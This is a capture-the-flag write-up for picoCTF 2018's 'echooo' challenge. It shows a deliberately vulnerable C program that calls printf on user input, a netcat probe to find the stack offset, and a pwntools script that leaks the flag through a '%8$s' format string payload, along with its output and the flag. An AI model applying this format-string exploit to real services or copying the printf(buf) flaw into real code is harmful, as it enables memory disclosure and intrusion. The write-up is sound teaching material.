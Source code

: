 # echooo
Binary Exploitation, 300 points

## Description:
> This program prints any input you give it. Can you leak the flag?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

## Solution:

It's pretty easy to spot the format string attack even without the program pointing us directly at it.
```c
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
```

To make things even easier, the stack contains a pointer to the flag (`char *flag_ptr`), and it's conveniently stored close to our buffer. 

According to IDA's stack analysis, the flag pointer is just 3 DWORDs apart from the buffer:
```
-000000000000009C var_9C          dd ?
-0000000000000098 flag_ptr        dd ?
-0000000000000094 var_94          dd ?
-0000000000000090 file            dd ?
-000000000000008C buf             db ?
```

So, if we find the location of the buffer, we can easily find the pointer to the flag using a simple calculation.

We can find the buffer by sending a payload starting with "AAAA" and searching for it:
```console
root@kali:/media/sf_CTFs/pico/echooo# echo "AAAA%11\$x" | nc 2018shell3.picoctf.com 46960
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> AAAA41414141
```

We found it at offset 11. If we go back 3 DWORDs and dereference that pointer as a string, we will get the flag.

Putting it all together:
```python
from pwn import *

r = remote("2018shell3.picoctf.com", 46960)

def send_payload(payload):
   log.debug("payload = %s" % repr(payload))
   r.sendline(payload)
   ret = r.recvuntil("> ")
   return ret

r.recvuntil("> ")
format_string = FmtStr(execute_fmt=send_payload)
log.info("Format string offset: {}".format(format_string.offset))

payload = "%" + str(format_string.offset - 3) + "$s"
log.info("Payload: {}".format(payload))
print send_payload(payload)
```

Output:
```console
root@kali:/media/sf_CTFs/pico/echooo# python exploit.py
[+] Opening connection to 2018shell3.picoctf.com on port 46960: Done
[*] Found format string offset: 11
[*] Format string offset: 11
[*] Payload: %8$s
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}

>
[*] Closed connection to 2018shell3.picoctf.com port 46960
```

The flag: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}